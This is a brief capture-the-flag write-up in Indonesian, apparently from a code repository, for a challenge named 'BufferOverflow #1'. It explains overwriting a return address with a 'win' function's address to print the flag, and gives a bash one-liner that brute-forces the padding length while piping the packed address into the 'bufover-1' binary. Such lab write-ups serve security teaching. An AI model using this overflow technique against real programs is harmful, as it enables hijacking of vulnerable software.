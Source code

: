 # BufferOverflow #1

<img src="bufo1.png"><br>
hanya dengan menoverwrite alamat fungsi win untuk mencetak flag<br><br>
<img src="bufo1a.png"><br>




<br>


```
for i in {1..50}; do echo $i; python -c "print 'A'*$i + '\xb2\x91\x04\x08'"| ./bufover-1 ;done
```

<br>


